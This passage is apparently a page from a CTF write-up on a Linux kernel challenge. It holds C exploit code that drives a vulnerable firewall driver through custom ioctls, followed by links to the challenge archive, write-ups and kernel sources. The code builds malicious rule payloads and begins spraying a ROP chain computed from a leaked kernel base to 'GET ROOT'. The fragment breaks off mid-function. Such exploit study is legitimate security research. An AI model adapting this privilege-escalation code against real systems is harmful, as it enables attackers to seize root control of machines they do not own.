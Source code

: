 ```python
    ptr->rule_type = rule_type;
    ioctl(fd,0xdeadbabe,ptr);
    free(ptr);
};
void duplicate(size_t rule_type,size_t idx){
    pay * ptr = calloc(1,sizeof(pay));
    ptr->idx = idx;
    ptr->rule_type = rule_type;
    ioctl(fd,0xbaad5aad,ptr);
    free(ptr);
};
void edit(size_t rule_type,size_t idx,__u8 * payload){

    pay * ptr = calloc(1,sizeof(pay));
    memcpy(ptr,payload,0x20);
    char * ip   = calloc(1,0x10+1);
    char * mask = calloc(1,0x10+1);
    size_t cur = 0;
    for(int i = 0 ; i < 4 ; i++){
        __u8 tmp = (__u8)payload[i+0x20];
        u64 nb = 0 ;
        if(i ==3)
            nb = sprintf(&ip[cur],"%d",tmp);
        else
            nb = sprintf(&ip[cur],"%d.",tmp);
        cur+= nb;

    }

    cur = 0;
    for(int i = 0 ; i < 4 ; i++){
        __u8 tmp = payload[i+0x24];
        u64  nb = 0 ;
        if(i ==3)
            nb = sprintf(&mask[cur],"%d",tmp);
        else
            nb = sprintf(&mask[cur],"%d.",tmp);
        cur+= nb;
    }
    memcpy(ptr->ip,ip,0x10);
    memcpy(ptr->mask,mask,0x10);
    ptr->idx = idx;
    ptr->rule_type = rule_type;
    memcpy(&ptr->proto,payload+0x28,2);
    memcpy(&ptr->port,payload+0x2a,2);
    memcpy(&ptr->action,payload+0x2c,1);
    ioctl(fd,0x1337beef,ptr);
    free(ptr);
};
void sprayROPChain(u64 base,u64 heap_addr){
    u64 rdi                 = 0xffffffff8100447c- NO_ASLR_BASE + base;
    u64 ret                 = rdi + 1;
    
    heap_addr = heap_addr + 0x30000;

    u64 code_addr = heap_addr;
    u64 * rop = calloc(1,0x1000);
    int idx = 0;
    for(int i = 0 ; i < 0xe00/8 ; i++)
        rop[idx++] = ret;
    
    // GET ROOT
    rop[idx++]  = rdi;
```

[1]: https://github.com/Crusaders-of-Rust/corCTF-2021-public-challenge-archive/tree/main/pwn/wall-of-perdition
[2]: https://syst3mfailure.io/wall-of-perdition/
[3]: https://dl.acm.org/doi/abs/10.1145/3576915.3623220
[4]: https://github.com/sefcom/RetSpill/blob/main/igni/chain_builder.py#L97
[6]: https://elixir.bootlin.com/linux/latest/source/include/linux/msg.h#L9
[7]: https://elixir.bootlin.com/linux/latest/source/ipc/msgutil.c#L37
[8]: https://n132.github.io/2024/02/09/IPS.html